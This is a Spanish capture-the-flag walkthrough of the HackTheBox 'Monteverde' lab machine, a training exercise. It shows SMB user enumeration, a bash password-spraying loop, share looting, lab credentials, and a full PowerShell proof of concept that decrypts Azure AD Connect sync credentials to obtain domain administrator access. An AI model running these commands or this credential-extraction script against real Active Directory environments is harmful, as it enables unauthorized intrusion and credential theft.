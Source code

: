 ```yaml
---
title: Monteverde
---
```


![htb](../../../../../assets/Monteverde/monteverde.png)

## Enumeration

Después de hacer nuestra enumeración con nmap, reconocemos que nos estamos enfrentando a un directorio activo, en esta seccion de maquinas Medium voy a hacer énfasis en el directorio activo, así que vamos a ver en profundidad  herramientas básicas de enumeración, reconocimiento y explotación.

![nmap](../../../../../assets/Monteverde/nmap.png)

Algo a destacar del escaneo es el nombre del dominio `MEGABANK.LOCAL` que guardaremos en nuestro _/etc/hosts_.

##### Enumerando sin credenciales

No tenemos credenciales ni usuarios para tirar del hilo, los scripts basicos de nmap no reportaron nada llamativo como poder listar archivos compartidos con el usuario Anonymous, así que vamos a usar [NetExec](# 'Herramienta de explotación de servicios de red que ayuda a automatizar la evaluación de la seguridad de redes grandes.') probando si podemos listar usuarios.

```bash
nxc smb -u '' -p '' --users
```

![nxc1](../../../../../assets/Monteverde/nxc1.png)

Ya tenemos una lista de usuarios válidos en el sistema, sabemos tambien que la cuenta de servicio Azure AD Connect es _**AAD_987d7f2f57d2**_, esto seguramente sea importante mas adelante  si la podemos llegar a comprometer, seguramente podamos extraer información delicada o hashes, pero por ahora tenemos que encontrar unas credenciales de algun usuario, iba hacer fuerza bruta a todos los usuarios pero antes de eso suelo probar el tipico admin admin. 

- Extraeremos en una lista los usuarios validos que tenemos y lo guardaremos en un archivo `users`.

```
nxc smb 10.10.10.172 -u ''  -p '' --users  | awk '{print $5}' | grep -v '\[' | tail -s 10 > users
```
<snap style="font-size:12px">_Con esto ya tendremos nuestro archivo de usuarios_</span>

#### Password same-as-username

- Script en bash para probar usuarios.

```bash
#!/bin/bash

users="username"

while IFS= read -r linea; do 
  echo "Ejecutando: nxc smb 10.10.10.172 -u $linea -p $linea"
  nxc smb 10.10.10.172 -u "$linea" -p "$linea"
done < "$users"

```
![mhope1](../../../../../assets/Monteverde/myscript.png)

El script nos reporta que el usuario _SABatchJobs_ usa su mismo nombre como contraseña, suelo probar esto antes de empezar a hacer fuerza bruta uno por uno, me resulta mucho mas silencioso y en alguna ocasión puedes llegar a descubrir que un usuario si la ha cagado como  es el caso. 

Hacemos un comprobación, para ver si el usuario tiene permisos de listar archivos compartidos.

```
nxc smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares
```
![nxc2](../../../../../assets/Monteverde/nxcsmb.png)

En este caso hay dos archivos que me llaman mucho la atencion el _"azure_uploads"_, que al intentar ver el contenido vemos que esta vacio y luego tenemos el directorio _"Users$"_ que contiene varios directorios vacios menos el directorio **mhope**.Para leer y descargar los archivos utilicé la herramienta [smbmap](# 'herramienta de pentesting para enumerar recursos SMB, listar permisos de compartidos y leer/escribir archivos remotos desde la línea de comandos.') de la siguiente manera.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'Users$'
```
<span style="font-size:12px">_Con esto consigo listar los archivos o directorios que contiene Users$_</span>

![smbmap](../../../../../assets/Monteverde/smbmap.png)

La intrusión me parecio bastante sencilla, así que vamos a aprovechar para jugar con bash. Me hice otro archivo con los directorios que se pueden listar.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'Users$' | awk '{print$8}' | tail -n 4 > UsersSMB
```
Y ahora jugamos con un one liner usando el archivo que acabamos de crear.

```bash
while IFS= read -r line; do echo "Ejecutando: \
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p \
'SABatchJobs' -r 'Users$/$line'";smbmap -H 10.10.10.172 \
-u 'SABatchJobs' -p 'SABatchJobs' -r "Users$/$line" 2>&1; echo "$line" ;done <"usersSMB"
```
![script](../../../../../assets/Monteverde/myscript2.png)

Tenemos algo, el directorio _'mhope'_, contiene un archivo azure.xml para descargarlo seguiremos usando `smbmap`.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download 'users$/mhope/azure.xml
```
Nos descargará un archivo .xml con información confidencial.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
BIEN tenemos credenciales del usuario mhope, probemos si tiene acceso remoto vía winrm con NetExec.

```bash
nxc winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
```
![pwn3d](../../../../../assets/Monteverde/pwned.png)

Al entrar en el escritorio del usuario encontraremos la primera flag.

#### Escalando privilegios 

En este paso si me perdí bastante, no sabia por donde empezar, pero recorde que estabamos en un entorno que usa Azure, este fue el indicio del comienzo, así que empece mi busqueda por internet al respecto, estuve buscando muchísimo, hasta que encontre este, realmente siento que fue el unico que esta actualizado y que te da información concreta [XPN's](https://blog.xpnsec.com/azuread-connect-for-redteam/).

Ya que _**Azure AD Connect**_ es una especie de puente entre el Directorio activo y el servicio en la nube de Azure, que su principal funcion es de autenticar y autorizar identidades en la nube y en esta ocasion es lo que vamos a estar explotando. Ya que Azure guarda las claves y hashes en un LocalDB, estaremos usando el poc de Adam Chester.

##### PoC Escalando Privilegios


- Primero tienes que modificar lo [★](https://gist.githubusercontent.com/xpn/0dc393e944d8733e3c63023968583545/raw/d45633c954ee3d40be1bff82648750f516cd3b80/azuread_decrypt_msol.ps1) para obtener conexion, en la variable $client tendrás que agregar en -ArgumentList un Server=127.0.0.1 para que pueda conectarse, esto dara varios errores pero al final tendrás las contraseñas.

```java
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
Esto nos devolverá las claves, fue tedioso hacer que funcionara pero bueno, son un poco de ingenio se pudo.

```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Ya solo queda Conectarnos vía [Evil-Winrm](# 'cliente de post-explotación para WinRM (Ruby) que permite autenticarse, ejecutar comandos remotos y transferir archivos en máquinas Windows; muy usado en pentesting.') con las credenciales que nos acaban de dar. en el escritorio encontraremos la flag final

